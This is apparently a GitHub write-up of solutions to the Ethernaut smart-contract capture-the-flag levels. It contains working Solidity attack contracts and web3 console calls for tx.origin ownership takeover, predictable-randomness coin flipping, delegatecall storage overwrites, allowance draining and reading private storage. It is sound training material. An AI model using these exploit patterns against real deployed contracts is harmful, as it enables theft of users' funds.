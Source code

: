 # ethernaut-challenges

### challenge 1
await contract.contribute({value: toWei("0.000001")})

await contract.sendTransaction({value: toWei("0.000001")})

await contract.withdraw()

### challenge 2
Constructor spelled incorrectly


await contract.Fal1out({value: toWei("0.00000001")})

### challenge 3

```
pragma solidity ^0.8.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/contracts/utils/math/SafeMath.sol";

interface CoinFlip {
    function flip(bool) external;
}

contract Attack {
    address cF = 0x30C7A39F911f075F45434357af31Ec5aaA9828bb;

    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    uint256 public value;

    function attack() public returns (uint256){
        uint256 blockValue = uint256(blockhash(block.number - 1));

        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        CoinFlip(cF).flip(side);

        return blockValue;
    }
}
```

### challenge 4

```
pragma solidity ^0.8.0;

interface Telephone {
    function changeOwner(address) external;
}

contract Attack {
    address telephoneAddress = 0x0bDb4C476e8719Db25Baac7Ab796008023C5Ed3A;
    address myAddress = 0xD0eba5f813cEfa1FD5f60E11feCD84f39a9dDA88;

    function attack() public {
        Telephone(telephoneAddress).changeOwner(myAddress);
    }
}
```

### challenge 5

Underflow and has to be called by someone else

### challenge 6

await window.web3.eth.sendTransaction({
    from: '0xD0eba5f813cEfa1FD5f60E11feCD84f39a9dDA88',
    to: '0x601D70A2fFAC4C90A3D4c4931564EE3d857d39F8',
    data: '0xdd365b8b'
})


### challenge 8

This will give you the pass:

await window.web3.eth.getStorageAt(contract.address,1)

### challenge 10

classic reentracy attack in withdraw

### challenge 11

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Elevator {
    function goTo(uint _floor) external;
}

contract Attacker {
    uint256 public nn;

    function attack(address _address) external {
        Elevator elevator = Elevator(_address);
        elevator.goTo(22);

    }

    function isLastFloor(uint) external returns (bool) {
        if (nn % 2 == 0) {
            nn += 1;
            return false;
        } else {
            nn += 1;
            return true;
        }      
    }
}
```

### challenge 12

pretty easy to read out the storage.

for whatever reason metamask would change my input data which took me one hour to figure out. works with remix.

### challenge 15

create smartcontract and give it the allowance for all tokens. then run the attacker contract below.

```
contract Attacker {
    function attack(address _address) public {
        address me =    0xD0eba5f813cEfa1FD5f60E11feCD84f39a9dDA88;
        address other = 0xEd6715D2172BFd50C2DBF608615c2AB497904803;
        NaughtCoin nc = NaughtCoin(_address);
        nc.transferFrom(me, other, nc.balanceOf(me));
    }
}
```


### challenge 16

most difficult until now... 

```
contract Attacker {
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 

  function setTime(uint256 _address) public {
    owner = address(uint160(_address));
  }
}
```

### challenge 17

cheated by getting the contract address from etherscan (lol). correct way would be to get the account address (its deterministic) from `keccack256(address, nonce)` than I simply selfdestructed the contract.

### challenge 18

You have to create bytecode (for contract creation) that will create bytecode that returns 42. Do not forget evm is big endian!

```
6060600053602A600153606060025360006003536052600453606060055360206006536060600753600060085360F3600953600A6000F3
```

### challenge 20

```
pragma solidity ^0.6.0;

contract Partner {
  
  fallback() external payable {
    assert(false);
  }
}
```

### challenge 21


```
pragma solidity ^0.6.0;

contract Shop {
  bool public isSold;

  function buy() external {}
}

contract Buyer {
  Shop _shop = Shop(0x6F818c393e11624BcBCC6eAe4144fbd1235eA212);

  function price() external view returns (uint) {
    bool _isSold = _shop.isSold();

    if (_isSold) {
      return 33;
    }
    if (!_isSold) {
      return 120;
    }
    
  }
  
  function attack() public {
    _shop.buy();
  }
}
```

### challenge 19

Wow, this was the most fun so far.
You have to exploit the array underflow. That allows you to write to any storage address of the contract. Super powerful stuff.
Good thing that you can not manipulate array length after solidity 0.6 anymore.

